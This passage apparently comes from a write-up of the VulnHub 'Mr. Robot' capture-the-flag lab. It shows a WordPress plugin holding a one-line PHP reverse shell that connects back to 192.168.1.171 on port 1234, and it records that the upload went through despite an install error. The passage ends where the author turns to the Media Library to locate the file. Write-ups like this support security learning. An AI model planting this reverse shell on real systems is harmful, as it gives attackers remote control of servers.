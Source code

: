 ### Reverse shell

I uploaded a new plugin containing the following code:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.171/1234 0>&1'");
```

![Add plugin](/assets/img/vulnhub/linux/mr-robot/add-plugins.png)

Despite that I encountered an error, the malicious PHP file was successfully uploaded in `/wp-content/uploads`:

![Error Install plugin](/assets/img/vulnhub/linux/mr-robot/Install-plugin.png)

I retrieved its location by looking at the **Media Library**:

